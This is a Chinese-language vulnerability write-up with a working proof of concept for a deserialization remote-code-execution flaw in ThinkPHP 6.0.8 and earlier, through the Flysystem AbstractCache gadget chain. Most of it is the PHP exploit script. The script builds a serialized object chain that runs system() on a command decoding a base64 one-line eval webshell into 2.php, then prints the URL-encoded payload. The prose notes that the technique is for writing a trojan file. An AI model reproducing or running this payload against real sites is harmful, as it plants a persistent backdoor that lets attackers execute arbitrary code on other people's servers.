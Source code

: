 ### 描述

ThinkPHP v6.0.8 已通过组件 League\\Flysystem\\Cached\\Storage\\AbstractCache 包含反序列化漏洞。

### 范围

thinkphp<=6.0.8,Linux 系统，因为核心是把 system (json 加密的数据), 类似： 
\[\["`whoami`"\],\[\]\]  
这样的结果返回，Windows 肯定不会执行成功，Linux 可以返回，虽然没有回显但是命令执行函数已经执行了。所以我们可以写木马文件  
\[\[jmx\],\[\]\]: command not found

### Poc

```plain
<?php
namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = [];
        protected $cache = ['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'];
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key;
        public function __construct($store,$key,$expire)
        {
            $this->key    = $key;
            $this->store  = $store;
            $this->expire = $expire;
        }
    }
}

namespace think\cache{
    abstract class Driver{

    }
}
namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'y4tacker',
            'hash_type'     => 'md5',
            'serialize'     => ['system'],
        ];
    }
}
namespace{
    $b = new think\cache\driver\File();
    $a = new think\filesystem\CacheStore($b,'y4tacker','1111');
    echo urlencode(serialize($a));

}
```